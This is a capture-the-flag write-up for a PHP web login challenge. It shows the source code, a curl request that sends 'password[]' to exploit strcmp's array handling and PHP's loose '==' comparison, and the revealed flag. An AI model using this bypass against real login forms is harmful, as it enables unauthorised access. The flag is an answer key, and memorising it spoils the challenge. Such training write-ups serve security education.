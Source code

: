 ## Challenge Name: C Style Login
**Category:** Web

**Challenge Description:**

Can you guess my password?

Website: http://clogin.challs.olicyber.it

### Approach

This is the source code of the provided site:
```
<?php

include_once('./secrets.php');

if (isset($_GET['source'])) {
  highlight_file(__FILE__);
  return;
}
?>

<html>

<head>
  <title>C style login</title>
  <link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
  <div class="log-form">
    <div>
      <a href="/?source">Source code</a><br />
      <?php
      if (isset($_POST['password'])) {
        if (strcmp($_POST['password'], $password) == 0) {
          echo $FLAG;
        } else {
          echo '<br />Wrong Password<br /><br />';
        }
      }
      ?>
    </div>
    <h2>Login</h2>
    <form method="POST">
      <input type="password" name="password" placeholder="password" />
      <button type="submit" class="btn">Login</button>
    </form>
  </div>
</body>

</html>
``` 

By looking at the php code i found the possible vulnerabilty in  ```if (strcmp($_POST['password'], $password) == 0)``` knowing the ```==``` type conversion problem and ```strcmp()``` ambiguity with arrays.

To solve this challenge we can:
```
curl 'http://clogin.challs.olicyber.it/' --data-raw 'password[]=%22%22'
```

Or changing the data post form to 
```
<h2>Login</h2>
    <form method="POST">
      <input type="password" name="password[]" placeholder="password" />
      <button type="submit" class="btn">Login</button>
    </form>
```

Sending ```password[]``` rather than ```password``` makes the ```strcmp($_POST['password'], $password)``` return NULL since is comparing a string with an array.
The comparation with the ```==``` operator between NULL and 0 is True, so ```NULL == 0``` is true, and we can get the flag.


**Flag**

```
flag{strcmp_1s_n0t_s0_s4f3}    
```
### Reflections

This challenge demonstrates the importance of understanding the nuances of weak typing and type conversion in PHP. By exploiting the behavior of PHP's strcmp() function and weak comparison operators, we were able to bypass the authentication mechanism and obtain the flag.
  

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>
